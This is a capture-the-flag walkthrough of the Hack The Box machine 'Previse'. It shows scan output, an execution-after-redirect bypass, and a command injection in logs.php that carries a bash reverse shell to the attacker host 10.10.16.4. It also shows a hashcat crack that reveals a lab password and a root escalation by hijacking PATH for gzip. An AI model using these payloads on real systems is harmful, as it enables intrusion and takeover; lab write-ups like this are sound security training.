







# Previse
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 20:03 BST
Nmap scan report for 10.10.11.104 (10.10.11.104)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.90 seconds

```
- Web Server


- If we check `burp` we can see that visiting `/` redirects to `login.php`
  - But `/` page also returns a valid full page
  - It's a [execution after redirect (EAR) vulnerability](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))


- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.104
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/16 16:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/.php                 (Status: 403) [Size: 277]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]
/nav.php              (Status: 200) [Size: 1248]
/footer.php           (Status: 200) [Size: 217]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
```
## Foothold
- If we check response from `/` page, we also see other endpoints:
  - `status.php`
  - `files.php`
  - `file_logs.php`
  - `accounts.php`

- So in order to check pages, we can intercept response and change status code to `200 OK`



- If we visit `accounts.php`, we see that we shouldn't access that page
  - Let's create a user



- Now we can check other pages
  - We found source files in `/files.php`
  - `logs.php` has `exec()` function call
    - `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`


- If we request data, we have




- I tried injecting `id` and other stuff, but had no success
  - But when I tried pinging my attack box, I got connection
  


- So now let's get reverse shell
  - `delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/6666 0>%261'`
  - Upgrade shell with `python` or `script /dev/null -c bash`


## User
- Enumerate the box
  - Nothing found, except the access to `db`
    - `config.php` from source files



- Let's crack the hash
  - It might take a while
    - `hashcat -m 500 hash /usr/share/wordlists/rockyou.txt`
  - `m4lwhere:ilovecody112235!`
  - `ssh` using the creds



## Root
- Enumerate again
  - `sudo -l`


- Check the content
```
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

- `gzip` is used without full path
  - So let's create our script called `gzip`
  - Modify the `PATH` and run the script



